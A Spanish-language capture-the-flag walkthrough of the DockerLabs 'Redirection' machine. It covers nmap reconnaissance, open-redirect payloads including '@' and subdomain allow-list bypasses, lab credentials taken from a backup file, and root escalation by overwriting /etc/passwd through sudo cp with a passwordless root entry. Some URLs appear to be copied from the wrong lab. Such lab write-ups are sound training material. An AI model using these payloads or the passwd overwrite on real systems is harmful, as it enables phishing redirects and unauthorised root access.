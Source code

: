 #MAQUINA #DOCKERLABS #FACIL
#OPEN_REDIRECT
<hr>

# RECONOCIMIENTO

Vamos a resolver **Redirection** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-30 11:12 CET
Initiating ARP Ping Scan at 11:12
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 11:12, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 11:12
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Completed SYN Stealth Scan at 11:12, 0.50s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2025-01-30 11:12:21 CET for 0s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.74 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)




```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** y el puerto **22(SSH)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,80 172.17.0.2                               
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-30 11:13 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.000019s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 89:6c:a5:af:d5:e2:83:6c:f9:87:33:44:0f:78:48:3a (ECDSA)
|_  256 65:32:42:95:ca:d0:53:bb:28:a5:15:4a:9c:14:64:5b (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Laboratorio de Open Redirect
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.53 seconds



```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-30 11:13 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.0000050s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

Vemos que es un laboratorio preparado para practicar **OpenRedirect**.

# EXPLOTACION

## LABORATORIO 1

Al hacer Ctrl + U, podemos ver como se gestiona la dirección y si cambiamos el sitio web podemos ver que es vulnerable ya:

```

http://172.17.0.2/laboratorio1/redirect.php?url=https://youtube.com

```

**VULNERADO**
## LABORATORIO 2

Al hacer Ctrl + U, podemos ver como se gestiona la dirección y si cambiamos el sitio web podemos ver que es vulnerable ya:

```

http://172.17.0.2/laboratorio1/redirect.php?url=https://youtube.com

```

Vemos que solo deja ir a google, pero @ en una URL puede hacer que el navegador interprete lo que está antes como credenciales de autenticación y lo que está después como el dominio real al que debe conectarse.

```

http://172.17.0.2/laboratorio2/redirect.php?url=https://www.google.com@www.youtube.com

```

**VULNERADO**
## LABORATORIO 3

Al hacer Ctrl + U, podemos ver como se gestiona la dirección y si cambiamos el sitio web podemos ver que es vulnerable ya:

```

http://172.17.0.2/laboratorio1/redirect.php?url=https://youtube.com

```

Vemos que solo deja ir a google, pero si probamos un subdominio

```

http://172.17.0.2/laboratorio1/redirect.php?url=https://www.beta.google.com

```

**VULNERADO**
# ESCALADA DE PRIVILEGIOS

Al completar los labs, te dan las credenciales de balu.

Tras echar un ojo vemos que hay un **secret.bak** con las credenciales de balulito

**Usuario -> balulito**
**Contra -> balulerochingon**

ESTAMOS COMO BALULITO

Vemos si el usuario tiene permisos SUDO:
   ```bash
balulito@857ab24bf0f1:/$ sudo -l
Matching Defaults entries for balulito on 857ab24bf0f1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User balulito may run the following commands on 857ab24bf0f1:
    (ALL) NOPASSWD: /bin/cp


```

Vemos **cp** con permisos SUDO , modificamos el /etc/passwd copiando la linea de root y quitandole la x para que no pida contra:
   ```bash
balulito@857ab24bf0f1:/tmp$ echo "root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
balu:x:1000:1000:balu,,,:/home/balu:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
balulito:x:1001:1001:balulito,,,:/home/balulito:/bin/bash
newroot::0:0:root:/root:/bin/bash" | sudo cp /dev/stdin /etc/passwd
balulito@857ab24bf0f1:/tmp$ su newroot
root@857ab24bf0f1:/tmp# whoami
root
root@857ab24bf0f1:/tmp# 
```

**YA ESTAMOS COMO ROOT.**